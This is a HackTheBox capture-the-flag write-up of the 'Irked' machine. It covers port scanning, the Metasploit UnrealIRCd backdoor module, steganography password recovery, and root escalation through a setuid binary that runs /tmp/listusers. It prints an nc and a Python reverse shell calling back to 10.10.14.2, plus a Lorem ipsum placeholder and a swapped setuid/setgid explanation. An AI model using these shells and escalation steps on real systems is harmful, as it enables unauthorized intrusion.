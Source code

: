 ```yaml
---
title: "HTB Write-up: Irked"
date: 2018-12-16
category: [HackTheBox]
tags: [HackTheBox, HTB, linux, IRC, Metasploit, msfconsole, steganography, setuid, find]
header:
    teaser: "/assets/images/htb/irked/irked.png"
---
```

Lorem ipsum dolor sit amet, consectetur adipiscing elit, sed do eiusmod tempor incididunt ut labore et dolore magna aliqua. Ut enim ad minim veniam, quis nostrud exercitation ullamco laboris nisi ut aliquip ex ea commodo consequat. Duis aute irure dolor in reprehenderit in voluptate velit esse cillum dolore eu fugiat nulla pariatur. Excepteur sint occaecat cupidatat non proident, sunt in culpa qui officia deserunt mollit anim id est laborum.

![irked_info.png](/assets/images/htb/irked/irked_info.png)

*Note: I completed this challenge on December 16th, 2018, however I'm just now writing it up in December 2019. As such, some of the details are sparse.*

### User
To begin the enumeration process, a port scan was run against the target using `masscan`. The purpose of this initial scan is to quickly determine which ports are open so that a more focused `nmap` scan can be performed that will target only the open ports discovered by `masscan`.

```
root@kali:~/workspace/hackthebox/Access# masscan -e tun0 -p 1-65535 --rate 2000 10.10.10.117
```

From `masscan`, it was revealed that a variety of ports were listening for connections, as shown in the command output below.

```
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 8067/tcp on 10.10.10.117                                  
Discovered open port 65534/tcp on 10.10.10.117                                 
Discovered open port 80/tcp on 10.10.10.117                                    
Discovered open port 111/tcp on 10.10.10.117                                   
Discovered open port 22/tcp on 10.10.10.117                                    
Discovered open port 50167/tcp on 10.10.10.117                                 
Discovered open port 6697/tcp on 10.10.10.117 
...
```

Using this information, a second scan was run using `nmap` to more thoughoughly examine the services listening on the discovered ports.

```
root@kali:~/workspace/hackthebox/Access# nmap -p 8067,65534,80,111,22,50167,6697 -sC -sV -oA scans/discovered-tcp 10.10.10.117
```

Note that while this scan is running, it's a good idea to check out what might be happening on well-known ports such as the HTTP port TCP 80. In this case, it appears the only item present on the webserver is the `irked.jpg` image which is shown below.

![irked_jpg.png](/assets/images/htb/irked/irked_jpg.png)

The results of the nmap scan revealed some interesting services listening on some uncommon ports, which suggest a good starting place for further enumeration. Note that in general, it is wise to take a broad approach during the initial enumeration process. That is to say that basic enumeration of each listening service should be completed before moving on to more focused enumeration of any particular service. In this write-up, the basic enumeration techniques are not discussed. A screenshot of the result of the nmap scan is shown below.

![nmapresults](/assets/images/htb/irked/nmapresults.png)

Of particular interest is the UnrealIRCd service running on TCP ports 6697, 8067, and 65534.

Using an IRC client such as `hexchat`, the IRC service listening on port 6697 can be accessed. If neccessary, `hexchat` can be installed using `apt-get install hexchat`. Upon connecting to the service, the server announces the running version of UnrealIRCd as 3.2.8.1. This is shown in the screenshot below.

![irc_version.png](/assets/images/htb/irked/irc_version.png)

Lesser-known and outdated services are often vulnerable to exploitation. The `searchsploit` tool can be used to search for exploits relevant to a given service. Now that the version of UnrealIRCd running on the target server is known, the command shown below can be used to search for vulnerabliities and exploits relevant to UnrealIRCd 3.2.8.1.

```
root@kali:~/workspace/hackthebox/Irked# searchsploit "UnrealIRCd 3.2.8.1"
```

The results of the search reveal that thare are a variety of exploits related to this version of UnrealIRCd, including a backdoor command exeuction Metasploit module.

![searchsploit_results](/assets/images/htb/irked/searchsploit_results.png)

The Metasploit Framework can be accessed via command line with the `msfconsole` command. Within `msfconsole`, the `exploit/unix/irc/unreal_ircd_3281_backdoor` module can be loaded and ran against the target using the options shown below.

![msfconsole_exploit.png](/assets/images/htb/irked/msfconsole_exploit.png)

Running this module with the `run` command results in a shell on the system as the `ircd` user. This session can be upgraded to a more stable shell by first connecting back to the attacking system once again, but this time outisde of `msfconsole`. In a new window on the attacking system, a listener should be set up before issuing the `nc -e /bin/bash 10.10.14.2 4444` command on the target system. From the session created over this connection, the shell can be upgraded, as demonstrated below.

![shell_upgrade.png](/assets/images/htb/irked/shell_upgrade.png)

In the `/home` directory of the target system there are two users; `ircd` and `djmardov`. The flag `user.txt` file is in the `/home/djamardov/Documents` directory, but cannot be read by the current `ircd` user. In this same directory, however, there is a file called `.backup`, the contents of which are shown below.

```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

For those unfamiliar with steg, the word "steg" is short for "steganography" and is the practice of concealing a file, message, image, or video within another file, message, image or video. The contents of the `.backup` file in the home directory of `djmardov` suggets that there must be some information hidden in another file, and that `UPupDOWNdownLRlrBAbaSSss` must be the password to access the information.

A useful Linux tool for working with stegonagrphy is `steghide`. If necessary, this tool can be installed using `apt-get install steghide`. The `steghide` command shown below can be run against the `irked.jpg` image found on the webserver.

```
root@kali:~/workspace/hackthebox/Irked# steghide info irked.jpg
```

Upon running this command, the program prompts for a password, for which `UPupDOWNdownLRlrBAbaSSss` should be given, revealing the information shown below.

![steghide_info.png](/assets/images/htb/irked/steghide_info.png)

The embedded `pass.txt` file can be extracted with the following command.

```
root@kali:~/workspace/hackthebox/Irked# steghide extract -sf irked.jpg -p 
```

The `pass.txt` file can now be read and contains the data shown below.

```
Kab6h+m+bbp2J:HG
```

Returning to the target system, the password shown above can be used to switch to the `djmardov` user with the `su` command. The `user.txt` file can now be read.

![user_txt.png](/assets/images/htb/irked/user_txt.png)

### Root
With the password for `djmardov`, the target system can be accessed over SSH as the `djmardov` user. This provides for a cleaner experience as compared to the upgraded shell used up until this point.

To begin searching for misconfigurations that could lead to the elevation of priveleges, a search of the file system using `find` can be performed with the purpose of locating files owned by the `root` user that have the `setuid` bit set.

```
djmardov@irked:~$ find / -user root -perm -u=s 2> /dev/null
```

The `setuid` and `setgid` flags are Unix access rights flags that allow users to run programs with the permissions of the file's owner or group respectively. The `setuid` and `setgid` bits can be set by changing a file's mode with `chmod`. An octal file mode beginning with `2` (i.e. `chmod 4755 file.sh`) will set a file's `setuid` flag, and an octal file mode beginning with `4` (i.e. `chmod 2755 file.sh`) will set a file's `setgid` flag.

 Sometimes, a program owned by the `root` user that has the `setuid` bit set can be used to elevate privleges to `root`, since whenever the program is run it is run with `root` level permissions.  While it is common for certain programs owned by the `root` user to have the `setuid` flag set, it is important to keep an eye out for anything out of the ordinary.

The result of the aformentioned `find` command are shown in the image below.

![find_results.png](/assets/images/htb/irked/find_results.png)

Most of this looks normal, however the `/usr/bin/viewuser` program is not a standard `setuid` Linux binary. 

Running the `viewuser` binary displays some interesting output.

![viewuser_test.png](/assets/images/htb/irked/viewuser_test.png)

First of all, it appears that this is a custom binary that is still being developed. Secondly, it appears that the program attempts to interact with the `/tmp/listusers` file (which as suggested by the output does not exist). 

Knowing that `viewuser` is run with `root` permission and that it interacts with a nonexistent `listusers` file in the `/tmp` directory suggests a disasterous outcome, as the `/tmp` directory is world writable. This is to say that any user on the system can write to the `/tmp` directory, and therefore any user can create a `listusers` file.

To test whether the `viewuser` binary will execute code from within the `/tmp/listusers` file, a simple `ping` test can be performed. A `listusers` executable file can be written to the `/tmp` directory.

```
djmardov@irked:~$ echo "ping -c 5 10.10.14.2" > /tmp/listusers && chmod 755 /tmp/listusers
```

Next, the `tcpdump` tool can be run on the attacking system to confirm whether the target system is executing the `ping` command in the `/tmp/listusers` file.

```
root@kali:~/workspace/hackthebox/Irked# tcpdump -nni any icmp
```

The `viewuser` binary should be run again to test the `ping` command. The output on the attacking system from the `tcpdump` command confirms that the `viewuser` binary on the target system is executing shell commands in the `/tmp/listusers` file. At this point, the contents of the `/tmp/listusers` file can be replaced with a reverse shell. The Python reverse shell used for this is shown below.

```python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
```

After setting up a listener on the attacking system, the `viewuser` binary should be run once again, resulting in a reverse shell as the `root` user of the target system.

![root_txt.png](/assets/images/htb/irked/root_txt.png)

